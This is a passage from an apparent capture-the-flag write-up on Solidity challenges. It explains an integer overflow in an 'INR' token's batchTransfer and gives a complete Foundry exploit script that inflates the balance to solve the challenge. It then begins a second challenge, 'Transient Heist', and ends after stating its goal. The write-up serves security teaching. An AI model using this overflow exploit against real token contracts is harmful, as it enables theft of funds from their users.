 ```solidity
                sstore(keccak256(ptr,0x40),add(sload(keccak256(ptr,0x40)),amount))
            }
```
The bug was in the `INR` token contract. There is an integer overflow in the amount check, so by sending `(1<<256)/2` to the user and another address, we can inflate the INR balance.

### Exploit
---
1. Claim INR.
2. Call `batchTransfer` to send `(1<<256)/2` to the user.
3. Deposit 1 wei and send `50_000e18` INR to the Stake contract.

```solidity
contract Solve is Script{
    function run() public {
        vm.startBroadcast();
        Setup setup=Setup(vm.envAddress("SETUP"));
        Stake stake=setup.stake();
        INR inr=setup.inr();
        setup.claim();
        inr.approve(address(stake), type(uint256).max);
        address[] memory receivers = new address[](2);
        receivers[0] = msg.sender;
        receivers[1] = address(0);
        inr.batchTransfer(receivers, 0x8000000000000000000000000000000000000000000000000000000000000000);
        stake.deposit(1, msg.sender);
        inr.transfer(address(stake), 50_000 ether);
        setup.stakeINR();
        setup.solve();
        vm.stopBroadcast();
    }
}
```


## Transient Heist
---
The setup
> Create WETH/USDC, WETH/SafeMoon, and SafeMoon/USDC pools.
> The user starts with `80_001e18` WETH.

The goal
> make collateral deposited over hash amount
```solidity
    function isSolved()public view returns (bool){
        bytes32 FLAG_HASH=keccak256("YOU NEED SOME BUCKS TO GET FLAG");
        bool check1;
        bool check2;
        if(usdsEngine.collateralDeposited(player,usdsEngine.collateralTokens(0))>uint256(FLAG_HASH)){
            check1=true;
        }
        if(usdsEngine.collateralDeposited(player,usdsEngine.collateralTokens(1))>uint256(FLAG_HASH)){
            check2=true;
        }
        return (check1&&check2);
    }
```
